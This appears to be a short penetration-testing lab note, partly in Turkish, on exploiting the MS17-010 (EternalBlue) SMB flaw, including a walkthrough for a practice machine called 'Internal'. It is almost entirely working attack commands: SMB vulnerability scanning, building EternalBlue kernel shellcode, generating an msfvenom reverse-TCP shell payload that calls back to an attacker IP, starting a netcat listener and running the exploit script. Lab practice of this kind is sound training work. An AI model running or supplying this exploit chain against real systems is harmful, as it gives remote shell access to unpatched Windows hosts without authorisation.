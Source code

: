 **Service and Vulnerability Detection**
```bash
nmap -p445 -sV 10.10.2.130
nmap -p445 -sV --script 'smb-vuln-**' 10.10.2.130
```

![](Pasted%20image%2020220125051031.png)

**Operating System Detection**
```bash
$ crackmapexec smb 10.10.2.130 -u foo -p bar
```

![](Pasted%20image%2020220125051158.png)

**Installation AutoBlue-MS17-010**
```bash
git clone https://github.com/3ndG4me/AutoBlue-MS17-010
cd AutoBlue-MS17-010
virtualenv --python=python2.7 venv
source venv/bin/activate
pip install -r requirements.txt
```

32 bit ve 64 bit için ayrı ayrı shellcode üretmek gerekiyor. Ama öncelikle kernel binary dosyalarını oluşturmalıyız. ( shell_prep.sh )

```bash
$ nasm -f bin eternalblue_kshellcode_x86.asm -o sc_x86_kernel.bin
$ nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.bin
```

**PG-Practice Machine: Internal**
```bash
# Windows Server (R) 2008 Standard 6001 Service Pack 1 (32 bit)
$ nmap -p139,445 --script 'smb-vuln-*' $IP
$ msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=192.168.49.59 LPORT=445

$ cat sc_x86_kernel.bin sc_x86_msf.bin > sc_x86.bin
$ nc -lnvp 445
$ python3 eternalblue_exploit7.py $IP shellcode/sc_x86.bin
```
